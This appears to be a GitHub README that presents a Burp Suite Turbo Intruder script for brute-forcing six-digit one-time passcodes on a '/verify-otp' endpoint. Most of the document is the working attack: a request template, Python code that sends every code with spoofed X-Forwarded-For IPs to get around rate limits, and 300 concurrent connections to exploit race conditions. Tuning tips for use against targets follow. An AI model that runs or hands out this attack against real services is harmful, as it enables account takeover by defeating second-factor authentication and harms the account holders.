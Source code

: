 # OTP Brute-Force with IP Rotation (Race Condition Exploit)

 ### How to Configure

1. In Burp Suite Capture a legitimate OTP request
2. Right-click → "Convert to Turbo Intruder attack"
3. Replace the OTP value with `%s` in the body
4. Add/Modify the `X-Forwarded-For` header to use `%s`

Example request template:

```

POST /verify-otp HTTP/1.1

Host: target.com

X-Forwarded-For: %s

Content-Type: application/json

  

{"OTP":"%s"}

```

Payload:
```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                          concurrentConnections=300,
                          requestsPerConnection=100,
                          pipeline=False)

    # Initialize IP counter (starts at 1.1.1.1)
    ip_parts = [1, 1, 1, 1]

    for otp in range(000000, 999999):  # 000000 to 999999
        # Format current IP
        current_ip = "%d.%d.%d.%d" % tuple(ip_parts)
        
        # Increment IP (1.1.1.1 → 1.1.1.2 → ... → 1.1.1.255 → 1.1.2.0)
        ip_parts[3] += 1
        if ip_parts[3] > 255:
            ip_parts[3] = 1
            ip_parts[2] += 1
            if ip_parts[2] > 255:
                ip_parts[2] = 1
                ip_parts[1] += 1
                if ip_parts[1] > 255:
                    ip_parts[1] = 1
                    ip_parts[0] += 1

        # Pad OTP with leading zeros
        otp_str = str(otp).zfill(6)
        
        # Queue the request with parameters in correct order
        # First %s is for X-Forwarded-For (IP)
        # Second %s is for OTP in JSON body
        engine.queue(target.req, [current_ip, otp_str])


def handleResponse(req, interesting):
    if req.status != 404:
        table.add(req)

```
### Request Structure
### Flowchart:

![Flowchart](https://raw.githubusercontent.com/spiritedonion/Race-Condition-Scripts/refs/heads/main/Race%20Condition.png)

The script generates requests with:

1. **Header**: `X-Forwarded-For: [current IP]` (e.g., `X-Forwarded-For: 1.1.1.1`)
2. **JSON Body**: `{"OTP": "[padded OTP]"}` (e.g., `{"OTP": "318121"}`)
### Attack Workflow

1. **IP Rotation**: Cycles through IPs from 1.1.1.1 to 255.255.255.255
2. **OTP Generation**: Tests all 6-digit combinations from 000000 upwards
3. **Concurrent Execution**: 300 parallel connections × 100 requests each
4. **Response Handling**: Any non-404 response is flagged as potentially valid
### Important Notes

- Adjust the OTP range (`000000-999999`) based on target hints
- Modify `concurrentConnections` based on target stability
- The IP rotation helps bypass IP-based rate limiting
- High concurrency exploits potential race conditions in OTP validation
